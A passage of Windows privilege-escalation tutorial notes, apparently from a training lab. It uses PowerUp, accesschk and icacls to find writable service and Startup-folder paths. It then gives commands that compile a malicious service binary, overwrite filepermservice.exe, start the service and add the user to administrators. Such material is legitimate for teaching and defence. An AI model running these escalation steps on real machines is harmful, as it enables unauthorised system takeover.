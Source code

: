### With PowerUp
```powershell
# we will run <. .\PowerUp.ps1>
Invoke-AllChecks
```

### Manual Detection
```bash
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

Notice that the **everyone** user group has **FILE_ALL_ACCESS** permission on the filepermservice.exe file.


### Escalation
We will generate the same malicious file:
```bash
x86_x64-w64-mingw32-gcc windows_service.c -o x.exe
# send the x.exe
```

Then replace the filepermservice.exe file:
```bash
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc	
net localgroup administrators
```

> The user has been added to the administrator group.
We have root access through this user.




# Escalation Path: Startup Application

icacls Documentation - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

## Overview
Same concept as the autorun attack, when we boot up our machine an application is gonna to startup.

We will use a malicious file to take advantage of that and get shell

Sadly we wont find this vulnerability with PowerUp.

### Detection
```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

From the output notice that the "BUILTIN\Users" group has Full access '(F)' to the directory

# F = full access
# M = modify access
# RX = read and execute access
# R = read-only access
```
